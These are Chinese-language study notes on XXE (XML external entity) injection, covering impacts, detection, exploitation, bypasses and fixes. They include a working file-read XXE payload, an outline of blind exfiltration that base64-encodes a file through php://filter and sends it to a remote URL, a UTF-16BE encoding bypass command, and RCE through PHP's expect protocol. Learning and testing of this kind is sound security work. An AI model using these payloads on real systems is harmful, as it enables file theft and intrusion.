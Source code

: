 # XML&XXE

XML是一种用来传输和存储数据的格式类型

XXE：XML的漏洞注入全称

## XXE（XML External Entity Injection）
## XML外部实体注入漏洞

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成危害

危害：

文件读取，RCE，内网攻击，DOS

检测：

白盒（函数及可控变量查找），黑盒（人工：数据格式类型判断，如`<user>test</user>`，Content-Type值判断，如`text/xml`或者`application/xml`，更改`Content-Type`值看返回结果；工具检测）

利用：

输出形式：有回显（协议玩法，http，file，其他协议；外部引用），无回显（外部引用-反向链接配合）
过滤绕过：协议玩法，外部引用，编码`UTF-16BE`

修复：

禁用外部实体引用
过滤关键字
WAF产品



### 漏洞利用示例：
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
	<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```

直接放到接收xml数据的api里执行

其他玩法：请求内网地址，可以探测内网，类似ssrf

RCE：安装了expect扩展的php环境，可以使用expect当作协议来执行系统命令

引入外部实体dtd

从远程加载xml



### 无回显：

这种情况下使用`php://filter/read=convert.base64-encode/resource=test.txt`

类似这种方式，读取文件然后base64编码

然后请求远程地址

如`http://127.0.0.1/x.php?data=%file;`

把数据发送出去，远端接收即可

可以用查看日志等方式查看到结果

关于xxe绕过

参考：<https://www.cnblogs.com/20175211lyz/p/11413335.html>



`UTF-16BE：`

`cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml`

### xxe靶场：`xxe-lab`

### xxe测试点寻找：`burpsuite抓包+发送到爬虫+HTTP history+Filter（过滤器）查找MIME type为xml的数据`

### base32：一种类似base64的编码

### XXE安全漏洞自动化注射脚本工具-`XXEinjector（Ruby）`
